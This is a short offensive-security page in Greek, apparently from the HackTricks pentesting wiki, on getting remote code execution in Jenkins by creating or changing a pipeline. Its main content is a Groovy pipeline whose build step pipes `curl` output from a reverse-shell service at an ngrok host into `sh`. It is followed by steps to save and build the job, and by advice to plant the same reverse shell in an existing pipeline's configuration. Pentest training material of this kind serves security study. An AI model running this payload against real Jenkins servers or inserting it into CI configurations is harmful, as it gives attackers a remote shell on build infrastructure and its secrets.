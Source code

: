 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Δημιουργία νέας Pipeline

Στο "Νέο Αντικείμενο" (προσβάσιμο στο `/view/all/newJob`) επιλέξτε **Pipeline:**

![](<../../images/image (235).png>)

Στην **ενότητα Pipeline** γράψτε το **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Τέλος, κάντε κλικ στο **Save** και **Build Now** και η pipeline θα εκτελεστεί:

![](<../../images/image (228).png>)

## Τροποποίηση μιας Pipeline

Αν μπορείτε να έχετε πρόσβαση στο αρχείο ρύθμισης κάποιου pipeline που έχει ρυθμιστεί, μπορείτε απλά να **το τροποποιήσετε προσθέτοντας το reverse shell σας** και στη συνέχεια να το εκτελέσετε ή να περιμένετε μέχρι να εκτελεστεί. 

{{#include ../../banners/hacktricks-training.md}}
